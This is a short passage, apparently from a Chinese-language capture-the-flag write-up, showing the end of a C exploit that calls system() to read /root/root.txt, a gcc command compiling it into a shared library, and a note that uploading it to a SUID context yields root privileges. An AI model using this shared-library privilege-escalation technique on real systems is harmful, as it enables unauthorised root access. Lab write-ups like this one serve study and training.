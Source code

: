 ```c++
    system("/bin/cat /root/root.txt")
}
  
  return rc;
}

```



![image-20231019124020469](./images/Drive/image-20231019124020469.png)

```
gcc -shared exploit.c -o 1.so -nostartfiles -fPIC  
```

然后上传，添加执行权限，就能提权了，因为给了suid，可以执行的时候申请root权限。